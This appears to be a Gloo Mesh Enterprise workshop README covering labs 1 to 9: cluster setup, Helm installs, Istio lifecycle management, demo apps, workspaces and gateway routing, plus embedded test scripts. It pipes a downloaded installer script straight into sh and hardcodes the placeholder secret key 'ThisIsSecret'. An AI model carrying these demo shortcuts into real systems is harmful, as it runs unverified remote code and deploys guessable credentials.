

<!--bash
#!/usr/bin/env bash

source ./scripts/assert.sh
-->


# <center>Gloo Mesh Workshop</center>


## Table of Contents
* [Introduction](#introduction)
* [Lab 1 - Deploy the Kubernetes clusters manually](#lab-1---deploy-the-kubernetes-clusters-manually-)
* [Lab 2 - Deploy and register Gloo Mesh](#lab-2---deploy-and-register-gloo-mesh-)
* [Lab 3 - Deploy Istio using Gloo Mesh Lifecycle Manager](#lab-3---deploy-istio-using-gloo-mesh-lifecycle-manager-)
* [Lab 4 - Deploy the Bookinfo demo app](#lab-4---deploy-the-bookinfo-demo-app-)
* [Lab 5 - Deploy the httpbin demo app](#lab-5---deploy-the-httpbin-demo-app-)
* [Lab 6 - Deploy Gloo Mesh Addons](#lab-6---deploy-gloo-mesh-addons-)
* [Lab 7 - Create the gateways workspace](#lab-7---create-the-gateways-workspace-)
* [Lab 8 - Create the bookinfo workspace](#lab-8---create-the-bookinfo-workspace-)
* [Lab 9 - Expose the productpage through a gateway](#lab-9---expose-the-productpage-through-a-gateway-)
* [Lab 10 - Traffic policies](#lab-10---traffic-policies-)
* [Lab 11 - Zero trust](#lab-11---zero-trust-)
* [Lab 12 - Create the httpbin workspace](#lab-12---create-the-httpbin-workspace-)
* [Lab 13 - Expose an external service](#lab-13---expose-an-external-service-)
* [Lab 14 - Deploy Keycloak](#lab-14---deploy-keycloak-)
* [Lab 15 - Securing the access with OAuth](#lab-15---securing-the-access-with-oauth-)
* [Lab 16 - Use the JWT filter to create headers from claims](#lab-16---use-the-jwt-filter-to-create-headers-from-claims-)
* [Lab 17 - Use the transformation filter to manipulate headers](#lab-17---use-the-transformation-filter-to-manipulate-headers-)
* [Lab 18 - Apply rate limiting to the Gateway](#lab-18---apply-rate-limiting-to-the-gateway-)
* [Lab 19 - Use the Web Application Firewall filter](#lab-19---use-the-web-application-firewall-filter-)


## Introduction <a name="introduction"></a>

[Gloo Mesh Enterprise](https://www.solo.io/products/gloo-mesh/) is a management plane which makes it easy to operate [Istio](https://istio.io) on one or many Kubernetes clusters deployed anywhere (any platform, anywhere).

### Istio support

The Gloo Mesh Enterprise subscription includes end to end Istio support:

- Upstream first
- Specialty builds available (FIPS, ARM, etc)
- Long Term Support (LTS) N-4 
- Critical security patches
- Production break-fix
- One hour SLA Severity 1
- Install / upgrade
- Architecture and operational guidance, best practices

### Gloo Mesh overview

Gloo Mesh provides many unique features, including:

- multi-tenancy based on global workspaces
- zero trust enforcement
- global observability (centralized metrics and access logging)
- simplified cross cluster communications (using virtual destinations)
- advanced gateway capabilities (oauth, jwt, transformations, rate limiting, web application firewall, ...)


### Want to learn more about Gloo Mesh

You can find more information about Gloo Mesh in the official documentation:

[https://docs.solo.io/gloo-mesh/latest/](https://docs.solo.io/gloo-mesh/latest/)


## Lab 1 - Deploy the Kubernetes clusters manually <a name="lab-1---deploy-the-kubernetes-clusters-manually-"></a>


Clone this repository and go to the directory where this `README.md` file is.

Set the context environment variables:

```bash
export MGMT=mgmt
export CLUSTER1=cluster1
```

> Note that in case you can't have a Kubernetes cluster dedicated for the management plane, you would set the variables like that:
> ```
> export MGMT=cluster1
> export CLUSTER1=cluster1
> ```

You also need to rename the Kubernete contexts of each Kubernetes cluster to match `mgmt`, `cluster1`, ...

Here is an example showing how to rename a Kubernetes context:

```
kubectl config rename-context <context to rename> <new context name>
```

Run the following command to make `mgmt` the current cluster.

```bash
kubectl config use-context ${MGMT}
```


## Lab 2 - Deploy and register Gloo Mesh <a name="lab-2---deploy-and-register-gloo-mesh-"></a>


First of all, let's install the `meshctl` CLI:

```bash
export GLOO_MESH_VERSION=v2.3.0-rc1
curl -sL https://run.solo.io/meshctl/install | sh -
export PATH=$HOME/.gloo-mesh/bin:$PATH
```

Run the following commands to deploy the Gloo Mesh management plane:

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;

describe("Required environment variables should contain value", () => {
  afterEach(function(done){
    if(this.currentTest.currentRetry() > 0){
      process.stdout.write(".");
       setTimeout(done, 1000);
    } else {
      done();
    }
  });

  it("Context environment variables should not be empty", () => {
    expect(process.env.MGMT).to.not.be.empty
    expect(process.env.CLUSTER1).to.not.be.empty
  });

  it("Gloo Mesh licence environment variables should not be empty", () => {
    expect(process.env.GLOO_MESH_LICENSE_KEY).to.not.be.empty
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/deploy-and-register-gloo-mesh/tests/environment-variables.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

```bash
helm repo add gloo-mesh-enterprise https://storage.googleapis.com/gloo-mesh-enterprise/gloo-mesh-enterprise 
helm repo update
kubectl --context ${MGMT} create ns gloo-mesh 
helm upgrade --install gloo-mesh-enterprise gloo-mesh-enterprise/gloo-mesh-enterprise \
--namespace gloo-mesh --kube-context ${MGMT} \
--version=2.3.0-rc1 \
--set glooMeshMgmtServer.ports.healthcheck=8091 \
--set legacyMetricsPipeline.enabled=false \
--set telemetryGateway.enabled=true \
--set telemetryGateway.service.type=LoadBalancer \
--set glooMeshUi.serviceType=LoadBalancer \
--set mgmtClusterName=cluster1 \
--set global.cluster=cluster1 \
--set licenseKey=${GLOO_MESH_LICENSE_KEY}
kubectl --context ${MGMT} -n gloo-mesh rollout status deploy/gloo-mesh-mgmt-server
```
<!--bash
kubectl --context ${MGMT} scale --replicas=0 -n gloo-mesh deploy/gloo-mesh-ui
kubectl --context ${MGMT} rollout status -n gloo-mesh deploy/gloo-mesh-ui
-->
<!--bash
kubectl wait --context ${MGMT} --for=condition=Ready -n gloo-mesh --all pod
until [[ $(kubectl --context ${MGMT} -n gloo-mesh get svc gloo-mesh-mgmt-server -o json | jq '.status.loadBalancer | length') -gt 0 ]]; do
  sleep 1
done
-->
Then, you need to set the environment variable to tell the Gloo Mesh agents how to communicate with the management plane:
<!--bash
cat <<'EOF' > ./test.js

const helpers = require('./tests/chai-exec');

describe("MGMT server is healthy", () => {
  let cluster = process.env.MGMT
  let deployments = ["gloo-mesh-mgmt-server","gloo-mesh-redis","gloo-telemetry-gateway","prometheus-server"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "gloo-mesh", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/deploy-and-register-gloo-mesh/tests/check-deployment.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});
EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/deploy-and-register-gloo-mesh/tests/get-gloo-mesh-mgmt-server-ip.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

```bash
export ENDPOINT_GLOO_MESH=gloo-mesh-mgmt-server:9900
export HOST_GLOO_MESH=$(echo ${ENDPOINT_GLOO_MESH} | cut -d: -f1)
export ENDPOINT_TELEMETRY_GATEWAY=gloo-telemetry-gateway:4317
```

Check that the variables have correct values:
```
echo $HOST_GLOO_MESH
echo $ENDPOINT_GLOO_MESH
```

Finally, you need to register the cluster(s).

Here is how you register the first one:

```bash
helm repo add gloo-mesh-agent https://storage.googleapis.com/gloo-mesh-enterprise/gloo-mesh-agent
helm repo update


kubectl apply --context ${MGMT} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: KubernetesCluster
metadata:
  name: cluster1
  namespace: gloo-mesh
spec:
  clusterDomain: cluster.local
EOF

helm upgrade --install gloo-mesh-agent gloo-mesh-agent/gloo-mesh-agent \
  --namespace gloo-mesh \
  --kube-context=${CLUSTER1} \
  --set relay.serverAddress=${ENDPOINT_GLOO_MESH} \
  --set relay.authority=gloo-mesh-mgmt-server.gloo-mesh \
  --set rate-limiter.enabled=false \
  --set ext-auth-service.enabled=false \
  --set glooMeshPortalServer.enabled=false \
  --set cluster=cluster1 \
  --set telemetryCollector.enabled=true \
  --set telemetryCollector.config.exporters.otlp.endpoint=\"${ENDPOINT_TELEMETRY_GATEWAY}\" \
  --version 2.3.0-rc1
```

Note that the registration can also be performed using `meshctl cluster register`.

You can check the cluster(s) have been registered correctly using the following commands:

```
meshctl --kubecontext ${MGMT} check
```

```
pod=$(kubectl --context ${MGMT} -n gloo-mesh get pods -l app=gloo-mesh-mgmt-server -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${MGMT} -n gloo-mesh debug -q -i ${pod} --image=curlimages/curl -- curl -s http://localhost:9091/metrics | grep relay_push_clients_connected
```

You should get an output similar to this:

```
# HELP relay_push_clients_connected Current number of connected Relay push clients (Relay Agents).
# TYPE relay_push_clients_connected gauge
relay_push_clients_connected{cluster="cluster1"} 1
```

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');
describe("Cluster registration", () => {
  it("cluster1 is registered", () => {
    podName = helpers.getOutputForCommand({ command: "kubectl -n gloo-mesh get pods -l app=gloo-mesh-mgmt-server -o jsonpath='{.items[0].metadata.name}' --context " + process.env.MGMT }).replaceAll("'", "");
    command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.MGMT + " -n gloo-mesh debug -q -i " + podName + " --image=curlimages/curl -- curl -s http://localhost:9091/metrics" }).replaceAll("'", "");
    expect(command).to.contain("cluster1");
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/deploy-and-register-gloo-mesh/tests/cluster-registration.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 3 - Deploy Istio using Gloo Mesh Lifecycle Manager <a name="lab-3---deploy-istio-using-gloo-mesh-lifecycle-manager-"></a>

We are going to deploy Istio using Gloo Mesh Lifecycle Manager.

First of all, let's create Kubernetes services for the gateways:

```bash
registry=localhost:5000
kubectl --context ${CLUSTER1} create ns istio-gateways
kubectl --context ${CLUSTER1} label namespace istio-gateways istio.io/rev=1-17 --overwrite

kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Service
metadata:
  labels:
    app: istio-ingressgateway
    istio: ingressgateway
  name: istio-ingressgateway
  namespace: istio-gateways
spec:
  ports:
  - name: http2
    port: 80
    protocol: TCP
    targetPort: 8080
  - name: https
    port: 443
    protocol: TCP
    targetPort: 8443
  selector:
    app: istio-ingressgateway
    istio: ingressgateway
    revision: 1-17
  type: LoadBalancer
EOF
```

It allows us to have full control on which Istio revision we want to use.

Then, we can tell Gloo Mesh to deploy the Istio control planes and the gateways in the cluster(s)

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: IstioLifecycleManager
metadata:
  name: cluster1-installation
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster1
        defaultRevision: true
      revision: 1-17
      istioOperatorSpec:
        profile: minimal
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.17.1-solo
        namespace: istio-system
        values:
          global:
            meshID: mesh1
            multiCluster:
              clusterName: cluster1
            network: cluster1
        meshConfig:
          accessLogFile: /dev/stdout
          defaultConfig:        
            proxyMetadata:
              ISTIO_META_DNS_CAPTURE: "true"
              ISTIO_META_DNS_AUTO_ALLOCATE: "true"
        components:
          pilot:
            k8s:
              env:
                - name: PILOT_ENABLE_K8S_SELECT_WORKLOAD_ENTRIES
                  value: "false"
          ingressGateways:
          - name: istio-ingressgateway
            enabled: false
EOF
kubectl apply --context ${MGMT} -f - <<EOF

apiVersion: admin.gloo.solo.io/v2
kind: GatewayLifecycleManager
metadata:
  name: cluster1-ingress
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster1
        activeGateway: false
      gatewayRevision: 1-17
      istioOperatorSpec:
        profile: empty
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.17.1-solo
        values:
          gateways:
            istio-ingressgateway:
              customService: true
        components:
          ingressGateways:
            - name: istio-ingressgateway
              namespace: istio-gateways
              enabled: true
              label:
                istio: ingressgateway
---
apiVersion: admin.gloo.solo.io/v2
kind: GatewayLifecycleManager
metadata:
  name: cluster1-eastwest
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster1
        activeGateway: false
      gatewayRevision: 1-17
      istioOperatorSpec:
        profile: empty
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.17.1-solo
        values:
          gateways:
            istio-ingressgateway:
              customService: true
        components:
          ingressGateways:
            - name: istio-eastwestgateway
              namespace: istio-gateways
              enabled: true
              label:
                istio: eastwestgateway
                topology.istio.io/network: cluster1
              k8s:
                env:
                  - name: ISTIO_META_ROUTER_MODE
                    value: "sni-dnat"
                  - name: ISTIO_META_REQUESTED_NETWORK_VIEW
                    value: cluster1
EOF
```

<!--bash
until kubectl --context ${MGMT} -n gloo-mesh wait --timeout=180s --for=jsonpath='{.status.clusters.cluster1.installations.*.state}'=HEALTHY istiolifecyclemanagers/cluster1-installation; do
  echo "Waiting for the Istio installation to complete"
  sleep 1
done
until [[ $(kubectl --context ${CLUSTER1} -n istio-system get deploy -o json | jq '[.items[].status.readyReplicas] | add') -ge 1 ]]; do
  sleep 1
done
until [[ $(kubectl --context ${CLUSTER1} -n istio-gateways get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 2 ]]; do
  sleep 1
done
-->

<!--bash
cat <<'EOF' > ./test.js

const helpers = require('./tests/chai-exec');

const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
const chai = require("chai");
const expect = chai.expect;

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("Checking Istio installation", function() {
  it('istiod pods are ready in cluster ' + process.env.CLUSTER1, () => helpers.checkDeploymentsWithLabels({ context: process.env.CLUSTER1, namespace: "istio-system", labels: "app=istiod", instances: 1 }));
  it('gateway pods are ready in cluster ' + process.env.CLUSTER1, () => helpers.checkDeploymentsWithLabels({ context: process.env.CLUSTER1, namespace: "istio-gateways", labels: "app=istio-ingressgateway", instances: 2 }));
  it("Gateways have an ip attached in cluster " + process.env.CLUSTER1, () => {
    let cli = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n istio-gateways get svc -l app=istio-ingressgateway -o jsonpath='{.items}'");
    cli.stderr.should.be.empty;
    let deployments = JSON.parse(cli.stdout.slice(1,-1));
    expect(deployments).to.have.lengthOf(1);
    deployments.forEach((deployment) => {
      expect(deployment.status.loadBalancer).to.have.property("ingress");
    });
  });
});

EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/istio-lifecycle-manager-install/tests/istio-ready.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->
<!--bash
until [[ $(kubectl --context ${CLUSTER1} -n istio-gateways get svc -l istio=ingressgateway -o json | jq '.items[0].status.loadBalancer | length') -gt 0 ]]; do
  sleep 1
done
-->

Set the environment variable for the service corresponding to the Istio Ingress Gateway of the cluster(s):

```bash
export ENDPOINT_HTTP_GW_CLUSTER1=$(kubectl --context ${CLUSTER1} -n istio-gateways get svc -l istio=ingressgateway -o jsonpath='{.items[0].status.loadBalancer.ingress[0].*}'):80
export ENDPOINT_HTTPS_GW_CLUSTER1=$(kubectl --context ${CLUSTER1} -n istio-gateways get svc -l istio=ingressgateway -o jsonpath='{.items[0].status.loadBalancer.ingress[0].*}'):443
export HOST_GW_CLUSTER1=$(echo ${ENDPOINT_HTTP_GW_CLUSTER1} | cut -d: -f1)
```

<!--bash
cat <<'EOF' > ./test.js
const dns = require('dns');
const chaiHttp = require("chai-http");
const chai = require("chai");
const expect = chai.expect;
chai.use(chaiHttp);
const { waitOnFailedTest } = require('./tests/utils');

afterEach(function(done) { waitOnFailedTest(done, this.currentTest.currentRetry())});

describe("Address '" + process.env.HOST_GW_CLUSTER1 + "' can be resolved in DNS", () => {
    it(process.env.HOST_GW_CLUSTER1 + ' can be resolved', (done) => {
        return dns.lookup(process.env.HOST_GW_CLUSTER1, (err, address, family) => {
            expect(address).to.be.an.ip;
            done();
        });
    });
});
EOF
echo "executing test ./gloo-mesh-2-0/tests/can-resolve.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 4 - Deploy the Bookinfo demo app <a name="lab-4---deploy-the-bookinfo-demo-app-"></a>

We're going to deploy the bookinfo application to demonstrate several features of Gloo Mesh.

You can find more information about this application [here](https://istio.io/latest/docs/examples/bookinfo/).

Run the following commands to deploy the bookinfo application on `cluster1`:

```bash
curl https://raw.githubusercontent.com/istio/istio/release-1.16/samples/bookinfo/platform/kube/bookinfo.yaml > bookinfo.yaml

kubectl --context ${CLUSTER1} create ns bookinfo-frontends
kubectl --context ${CLUSTER1} create ns bookinfo-backends
kubectl --context ${CLUSTER1} label namespace bookinfo-frontends istio.io/rev=1-17 --overwrite
kubectl --context ${CLUSTER1} label namespace bookinfo-backends istio.io/rev=1-17 --overwrite

# deploy the frontend bookinfo service in the bookinfo-frontends namespace
kubectl --context ${CLUSTER1} -n bookinfo-frontends apply -f bookinfo.yaml -l 'account in (productpage)'
kubectl --context ${CLUSTER1} -n bookinfo-frontends apply -f bookinfo.yaml -l 'app in (productpage)'
kubectl --context ${CLUSTER1} -n bookinfo-backends apply -f bookinfo.yaml -l 'account in (reviews,ratings,details)'
# deploy the backend bookinfo services in the bookinfo-backends namespace for all versions less than v3
kubectl --context ${CLUSTER1} -n bookinfo-backends apply -f bookinfo.yaml -l 'app in (reviews,ratings,details),version notin (v3)'
# Update the productpage deployment to set the environment variables to define where the backend services are running
kubectl --context ${CLUSTER1} -n bookinfo-frontends set env deploy/productpage-v1 DETAILS_HOSTNAME=details.bookinfo-backends.svc.cluster.local
kubectl --context ${CLUSTER1} -n bookinfo-frontends set env deploy/productpage-v1 REVIEWS_HOSTNAME=reviews.bookinfo-backends.svc.cluster.local
# Update the reviews service to display where it is coming from
kubectl --context ${CLUSTER1} -n bookinfo-backends set env deploy/reviews-v1 CLUSTER_NAME=${CLUSTER1}
kubectl --context ${CLUSTER1} -n bookinfo-backends set env deploy/reviews-v2 CLUSTER_NAME=${CLUSTER1}
```


<!--bash
until [[ $(kubectl --context ${CLUSTER1} -n bookinfo-frontends get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 1 ]]; do
  sleep 1
done
until [[ $(kubectl --context ${CLUSTER1} -n bookinfo-backends get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 4 ]]; do
  sleep 1
done
-->

You can check that the app is running using the following command:

```
kubectl --context ${CLUSTER1} -n bookinfo-frontends get pods && kubectl --context ${CLUSTER1} -n bookinfo-backends get pods
```

Note that we deployed the `productpage` service in the `bookinfo-frontends` namespace and the other services in the `bookinfo-backends` namespace.

And we deployed the `v1` and `v2` versions of the `reviews` microservice, not the `v3` version.

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Bookinfo app", () => {
  let cluster = process.env.CLUSTER1
  let deployments = ["productpage-v1"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo-frontends", k8sObj: deploy }));
  });
  deployments = ["ratings-v1", "details-v1", "reviews-v1", "reviews-v2"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo-backends", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/apps/bookinfo/deploy-bookinfo/tests/check-bookinfo.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 5 - Deploy the httpbin demo app <a name="lab-5---deploy-the-httpbin-demo-app-"></a>

We're going to deploy the httpbin application to demonstrate several features of Gloo Mesh.

You can find more information about this application [here](http://httpbin.org/).


Run the following commands to deploy the httpbin app on `cluster1`. The deployment will be called `not-in-mesh` and won't have the sidecar injected (because we don't label the namespace).

```bash
kubectl --context ${CLUSTER1} create ns httpbin
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: not-in-mesh
  namespace: httpbin
---
apiVersion: v1
kind: Service
metadata:
  name: not-in-mesh
  namespace: httpbin
  labels:
    app: not-in-mesh
    service: not-in-mesh
spec:
  ports:
  - name: http
    port: 8000
    targetPort: 80
  selector:
    app: not-in-mesh
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: not-in-mesh
  namespace: httpbin
spec:
  replicas: 1
  selector:
    matchLabels:
      app: not-in-mesh
      version: v1
  template:
    metadata:
      labels:
        app: not-in-mesh
        version: v1
    spec:
      serviceAccountName: not-in-mesh
      containers:
      - image: docker.io/kennethreitz/httpbin
        imagePullPolicy: IfNotPresent
        name: not-in-mesh
        ports:
        - containerPort: 80
EOF
```


Then, we deploy a second version, which will be called `in-mesh` and will have the sidecar injected (because of the label `istio.io/rev` in the Pod template).

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: in-mesh
  namespace: httpbin
---
apiVersion: v1
kind: Service
metadata:
  name: in-mesh
  namespace: httpbin
  labels:
    app: in-mesh
    service: in-mesh
spec:
  ports:
  - name: http
    port: 8000
    targetPort: 80
  selector:
    app: in-mesh
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: in-mesh
  namespace: httpbin
spec:
  replicas: 1
  selector:
    matchLabels:
      app: in-mesh
      version: v1
  template:
    metadata:
      labels:
        app: in-mesh
        version: v1
        istio.io/rev: 1-17
    spec:
      serviceAccountName: in-mesh
      containers:
      - image: docker.io/kennethreitz/httpbin
        imagePullPolicy: IfNotPresent
        name: in-mesh
        ports:
        - containerPort: 80
EOF
```


You can follow the progress using the following command:

```
kubectl --context ${CLUSTER1} -n httpbin get pods
```

```
NAME                           READY   STATUS    RESTARTS   AGE
in-mesh-5d9d9549b5-qrdgd       2/2     Running   0          11s
not-in-mesh-5c64bb49cd-m9kwm   1/1     Running   0          11s
```
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("httpbin app", () => {
  let cluster = process.env.CLUSTER1
  
  let deployments = ["not-in-mesh", "in-mesh"];
  
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "httpbin", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-eks-single-cluster-beta/build/templates/steps/apps/httpbin/deploy-httpbin/tests/check-httpbin.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 6 - Deploy Gloo Mesh Addons <a name="lab-6---deploy-gloo-mesh-addons-"></a>

To use the Gloo Mesh Gateway advanced features (external authentication, rate limiting, ...), you need to install the Gloo Mesh addons.

First, you need to create a namespace for the addons, with Istio injection enabled:

```bash
kubectl --context ${CLUSTER1} create namespace gloo-mesh-addons
kubectl --context ${CLUSTER1} label namespace gloo-mesh-addons istio.io/rev=1-17 --overwrite
```

Then, you can deploy the addons on the cluster(s) using Helm:

```bash

helm upgrade --install gloo-mesh-agent-addons gloo-mesh-agent/gloo-mesh-agent \
  --namespace gloo-mesh-addons \
  --kube-context=${CLUSTER1} \
  --set cluster=cluster1 \
  --set glooMeshAgent.enabled=false \
  --set glooMeshPortalServer.enabled=true \
  --set glooMeshPortalServer.apiKeyStorage.config.host="redis.gloo-mesh-addons:6379" \
  --set glooMeshPortalServer.apiKeyStorage.configPath="/etc/redis/config.yaml" \
  --set glooMeshPortalServer.apiKeyStorage.secretKey="ThisIsSecret" \
  --set rate-limiter.enabled=true \
  --set ext-auth-service.enabled=true \
  --version 2.3.0-rc1
```

This is what the environment looks like now:


## Lab 7 - Create the gateways workspace <a name="lab-7---create-the-gateways-workspace-"></a>

We're going to create a workspace for the team in charge of the Gateways.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

Let's create the `gateways` workspace which corresponds to the `istio-gateways` and the `gloo-mesh-addons` namespaces on the cluster(s):

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: gateways
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: istio-gateways
    - name: gloo-mesh-addons
EOF
```

Then, the Gateway team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `gateways` workspace (so the `istio-gateways` or the `gloo-mesh-addons` namespace):

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: gateways
  namespace: istio-gateways
spec:
  importFrom:
  - workspaces:
    - selector:
        allow_ingress: "true"
    resources:
    - kind: SERVICE
    - kind: ALL
      labels:
        expose: "true"
  exportTo:
  - workspaces:
    - selector:
        allow_ingress: "true"
    resources:
    - kind: SERVICE
EOF
```

The Gateway team has decided to import the following from the workspaces that have the label `allow_ingress` set to `true` (using a selector):
- all the Kubernetes services exported by these workspaces
- all the resources (RouteTables, VirtualDestination, ...) exported by these workspaces that have the label `expose` set to `true`


## Lab 8 - Create the bookinfo workspace <a name="lab-8---create-the-bookinfo-workspace-"></a>

We're going to create a workspace for the team in charge of the Bookinfo application.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

Let's create the `bookinfo` workspace which corresponds to the `bookinfo-frontends` and `bookinfo-backends` namespaces on the cluster(s):

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: bookinfo
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
EOF
```

Then, the Bookinfo team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `bookinfo` workspace (so the `bookinfo-frontends` or the `bookinfo-backends` namespace):

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: bookinfo
  namespace: bookinfo-frontends
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: productpage
    - kind: SERVICE
      labels:
        app: reviews
    - kind: ALL
      labels:
        expose: "true"
EOF
```

The Bookinfo team has decided to export the following to the `gateway` workspace (using a reference):
- the `productpage` and the `reviews` Kubernetes services
- all the resources (RouteTables, VirtualDestination, ...) that have the label `expose` set to `true`

This is how the environment looks like with the workspaces:


## Lab 9 - Expose the productpage through a gateway <a name="lab-9---expose-the-productpage-through-a-gateway-"></a>

In this step, we're going to expose the `productpage` service through the Ingress Gateway using Gloo Mesh.

The Gateway team must create a `VirtualGateway` to configure the Istio Ingress Gateway in cluster1 to listen to incoming requests.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: istio-gateways
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: cluster1
  listeners: 
    - http: {}
      port:
        number: 80
      allowedRouteTables:
        - host: '*'
EOF

```

Then, the Gateway team should create a parent `RouteTable` to configure the main routing.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main
  namespace: istio-gateways
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
        sortMethod: ROUTE_SPECIFICITY
EOF
```

